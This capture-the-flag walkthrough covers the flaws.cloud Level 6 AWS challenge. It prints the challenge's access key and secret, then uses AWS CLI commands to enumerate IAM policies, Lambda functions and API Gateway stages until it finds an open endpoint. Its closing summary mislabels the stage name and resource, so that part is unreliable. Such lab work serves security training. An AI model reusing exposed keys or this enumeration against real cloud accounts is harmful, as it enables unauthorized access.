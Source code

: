 # Level 6
url: `http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/`

<kbd>![image](https://github.com/user-attachments/assets/eb4c364a-c80b-4bb4-8a86-bffb0f17e0cb)</kbd>

This time we are going to find policies and access attached to the given keys, also it said the there is SecurityAudit policy attached to these keys.

>- The **SecurityAudit** group can get a high level overview of the resources in an AWS account, but it's also useful for looking at IAM policies. 
>
>

```
Access key ID: AKIAJFQ6E7BY57Q3OBGA
Secret: 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
```

Lets proceed and add this new access to our profile using `aws configure` command

<kbd>![image](https://github.com/user-attachments/assets/24a8ba8e-0178-48f1-a2a6-38d871464394)</kbd>

We can check our listed profiles we can use 

```
aws configure list-profiles
```
<kbd>![image](https://github.com/user-attachments/assets/8d7fc921-b57c-4db9-97ac-1a3e9b30cfe1)</kbd>

First, find out who you are or this is equivalent to `whoami`

```
aws iam get-user --profile level6
```
<kbd>![image](https://github.com/user-attachments/assets/ae2c5ebc-488c-4742-a861-e533eda16b2c)</kbd>

we'll take note of the username, 
```
 "UserName": "Level6"
```

Using the username, this will allow us to request for any attached policies that it may have access to, 

```
└─$ aws iam list-attached-user-policies --user-name level6 --profile level6 
{
    "AttachedPolicies": [
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        }
    ]
}
  
```
<kbd>![image](https://github.com/user-attachments/assets/3e67ace5-2786-4bc4-8ec1-ad9d08111210)</kbd>

Great, we found another security policy called `list_apigateways`, 

We can enumerate this policy using `aws iam get-policy` to find the versionid, and as seen `v4` is our version

<kbd>![image](https://github.com/user-attachments/assets/8df2443b-6c80-47ce-b18a-679ea20f356d)</kbd>

Now that we have the `ARN` and the `version id`, we can now request what the actual policy is by using the `aws get-policy-version` we'll provide it with `policy-arn` and `version-id` we found earlier. 

```
aws iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4 --profile level6 
```

<kbd>![image](https://github.com/user-attachments/assets/a3c18607-9b7a-4c15-8f0e-e79779f7a75e)</kbd>


This tells us we can call "apigateway:GET" on "arn:aws:apigateway:us-west-2::/restapis/*" 

Since the `SecurityAudit policy` lets us see some things about lambdas: 

To check this we can issue `aws lambda list-functions`
```

└─$ aws lambda list-functions --region us-west-2 --profile level6
{
    "Functions": [
        {
            "FunctionName": "Level6",
            "FunctionArn": "arn:aws:lambda:us-west-2:975426262029:function:Level6",
            "Runtime": "python2.7",
            "Role": "arn:aws:iam::975426262029:role/service-role/Level6",
            "Handler": "lambda_function.lambda_handler",
            "CodeSize": 282,
            "Description": "A starter AWS Lambda function.",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2017-02-27T00:24:36.054+0000",
            "CodeSha256": "2iEjBytFbH91PXEMO5R/B9DqOgZ7OG/lqoBNZh5JyFw=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "d45cc6d9-f172-4634-8d19-39a20951d979",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
:

```

So we have a function name called `Level6` 

<kbd>![image](https://github.com/user-attachments/assets/a67289e7-d302-49af-a446-994881066d4a)</kbd>

To get more infromation about the `Level6` function we can use the  lambda's `get-policy` function
```
┌──(aaron㉿kali)-[~/flaws/level6]
└─$ aws lambda get-policy --function-name Level6 --region us-west-2 --profile level6
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Id\":\"default\",\"Statement\":[{\"Sid\":\"904610a93f593b76ad66ed6ed82c0a8b\",\"Effect\":\"Allow\",\"Principal\":{\"Service\":\"apigateway.amazonaws.com\"},\"Action\":\"lambda:InvokeFunction\",\"Resource\":\"arn:aws:lambda:us-west-2:975426262029:function:Level6\",\"Condition\":{\"ArnLike\":{\"AWS:SourceArn\":\"arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\"}}}]}",
    "RevisionId": "edaca849-06fb-4495-a09c-3bc6115d3b87"
}
         
```
<kbd>![image](https://github.com/user-attachments/assets/dbd4eaa1-7c16-468c-a0e0-5491829f783b)</kbd>

This tells us we have the ability to execute `arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\` 

That "s33ppypa75" is a rest-api-id, which we can then use to find the resource name, we are oing to use the `aws apigateway get-stages` command

```
└─$ aws apigateway get-stages --rest-api-id s33ppypa75 --region us-west-2 --profile level6
{
    "item": [
        {
            "deploymentId": "8gppiv",
            "stageName": "Prod",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "methodSettings": {},
            "tracingEnabled": false,
            "createdDate": "2017-02-26T19:26:08-05:00",
            "lastUpdatedDate": "2017-02-26T19:26:08-05:00"
        }
    ]
}


```
We can see from the results the  `"stageName": "Prod",` 

**Lambda** functions in aws are called using that `rest-api-id`, `stage name`, `region`, and `resource`. 

 Since we already have these 4 requirements, we combine them all together we will have ` https://s33ppypa75.execute-api.us-west-2.amazonaws.com/Prod/level6`

>- `rest-api-id`  = s33ppypa75 (We get from  `aws lambda get-policy` command )
>- `stage name` = execute-api (We get from  `aws lambda get-policy` command )
>- `region` = us-west-2 
>- resource = Prod/level6  (from `aws apigateway get-stages` )
 

Then we we go to the url, this is what we see

<kbd>![image](https://github.com/user-attachments/assets/b855e61e-de68-4121-9f6b-170b3d3b5238)</kbd>

It tells us to go to `http://theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud/d730aa2b/`

And if go the url 

![image](https://github.com/user-attachments/assets/cefa99cc-f91e-4e78-94bb-0a3e37425492)


The end. 



